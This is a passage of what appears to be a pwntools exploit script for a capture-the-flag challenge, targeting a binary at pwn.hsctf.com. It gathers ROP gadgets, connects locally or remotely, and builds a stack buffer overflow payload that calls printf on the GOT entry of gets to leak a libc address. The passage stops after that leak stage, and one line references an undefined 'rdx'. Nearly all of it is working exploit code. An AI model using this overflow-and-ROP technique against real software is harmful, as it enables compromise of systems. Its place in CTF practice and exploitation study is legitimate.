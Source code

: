 ```python
  pop_rdi = 0
  pop_rsi_r15 = 0
  pop_rdx = 0

  for addr, name in gadgets:
    if 'pop rdi ; ret' in name:
      pop_rdi = addr
    if 'pop rsi ; pop r15 ; ret' in name:
      pop_rsi_r15 = addr
    if 'pop rdx ; ret' in name:
      pop_rdx = addr

  def call(f, a1, a2, a3):
    out = ''
    if a1 != None:
      out += p64(pop_rdi)+p64(a1)
    if a2 != None:
      out += p64(pop_rsi_r15)+p64(a2)*2
    if a3 != None:
      if pop_rdx == 0:
        print 'RDX GADGET NOT FOUND'
        exit(-1)
      else:
        out += p64(rdx)+p64(a3)
    return out+p64(f)

def attach_gdb():
  gdb.attach(sh)

if DEBUG:
  context.log_level = 'debug'

def start():
  global sh
  if len(argv) < 2:
    stdout = process.PTY
    stdin = process.PTY

    sh = process(BINARY, stdout=stdout, stdin=stdin)

    # if DEBUG:
    #   attach_gdb()

    REMOTE = False
  else:
    sh = remote('pwn.hsctf.com', 2345)
    REMOTE = True

start()

# ---------------- END OF BOILERPLATE --------------------- #

elf = ELF(BINARY)

gets_got = elf.got['gets']
printf_plt = elf.plt['printf']
main_addr = elf.symbols['main']
nop = 0x000000000040114f

payload = "A"*16 # Overflow the buffer
payload += p64(nop) # Added here because the exploit wasn't working without it for some reason
payload += call(printf_plt, gets_got, None, None) # Call printf with gets()'s GOT address to leak the gets() libc address
```